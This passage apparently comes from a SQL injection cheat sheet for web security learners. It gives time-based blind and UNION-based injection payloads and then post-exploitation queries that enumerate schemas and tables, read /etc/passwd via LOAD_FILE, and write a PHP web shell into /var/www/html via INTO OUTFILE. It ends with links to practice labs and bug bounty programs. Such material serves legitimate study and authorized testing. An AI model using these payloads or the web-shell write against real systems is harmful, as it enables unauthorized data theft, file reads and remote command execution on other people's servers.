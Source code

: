 **Time-Based Blind:**
```sql
' AND SLEEP(5)--
'; WAITFOR DELAY '0:0:5'--
' OR SLEEP(5)--
```

**UNION-Based:**
```sql
' UNION SELECT NULL--
' UNION SELECT NULL,NULL--
' UNION SELECT NULL,NULL,NULL--
' UNION ALL SELECT NULL,NULL,database()--
```

### Common SQL Commands After Exploitation

```sql
-- Get current database
SELECT database();

-- Get all databases
SELECT schema_name FROM information_schema.schemata;

-- Get tables
SELECT table_name FROM information_schema.tables WHERE table_schema='dbname';

-- Get columns
SELECT column_name FROM information_schema.columns WHERE table_name='users';

-- Read file (MySQL)
SELECT LOAD_FILE('/etc/passwd');

-- Write file (MySQL)
SELECT '<?php system($_GET["cmd"]); ?>' INTO OUTFILE '/var/www/html/shell.php';
```

---

## 🎓 Learning Resources

### Practice Labs (Legal & Free)
- **PortSwigger Web Security Academy** - https://portswigger.net/web-security
- **DVWA (Damn Vulnerable Web App)** - Docker: `docker run -p 80:80 vulnerables/web-dvwa`
- **bWAPP** - http://www.itsecgames.com/
- **WebGoat (OWASP)** - https://owasp.org/www-project-webgoat/
- **HackTheBox** - https://www.hackthebox.eu/
- **TryHackMe** - https://tryhackme.com/

### Bug Bounty Platforms
- HackerOne - https://www.hackerone.com/
- Bugcrowd - https://www.bugcrowd.com/
- Intigriti - https://www.intigriti.com/
- YesWeHack - https://www.yeswehack.com/
